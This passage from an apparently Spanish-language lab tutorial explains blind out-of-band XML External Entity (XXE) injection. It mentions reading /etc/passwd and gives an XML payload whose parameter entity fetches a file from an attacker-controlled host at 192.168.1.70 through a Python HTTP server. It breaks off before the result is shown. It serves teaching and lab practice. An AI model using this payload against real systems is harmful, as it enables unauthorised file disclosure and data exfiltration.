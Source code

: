 En este caso si nos mostrara el archivo "/etc/passwd", pero vamos a suponer que no nos respondió nada, y solo nos mostró algún mensaje de advertencia, por ejemplo **"no se pueden inyectar entidades"**, por poner algún ejemplo, entonces como no nos está mostrando nada, ya que ninguna etiqueta se está devolviendo, lo que podemos hacer en estos casos es lo siguiente, haremos un Out of band interaction.

Y esto lo haremos a través de entidades en el DTD:

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://192.168.1.70/prueba"> %xxe; ]>
	<root>
		<name>Dansh</name>
		<tel>123123</tel>
		<email>dansh@test.com</email>
		<password>qweqwdawe12312</password>
	</root>
```
> Ya no es necesario llamar a la entidad fuera del DTD, ya que podría provocar errores.

Vemos que hemos agregado el símbolo de porcentaje al declarar la entidad **xxe** en el DTD, y también al final llamaremos a la entidad dentro del DTD usando **%xxe;**.

Lo que definimos en la entidad **xxe** es que obtendrá un recurso el cual está en este caso en nuestra máquina atacante, para acceder al archivo llamado **prueba** el cual compartiremos desde nuestra máquina atacante a través de un servidor python HTTP compartido.

Y antes de tramitar la petición debemos activar el servidor compartido en la ruta del archivo **prueba**, en este caso aún no definí el archivo prueba, por lo que al tramitar la petición, en el historial del servidor python compartido veremos lo siguiente:

![listen](/assets/images/LabsXXE/prueba/listening.png)

Vemos que ya está activo, por lo que tramitaremos la petición anterior XML:
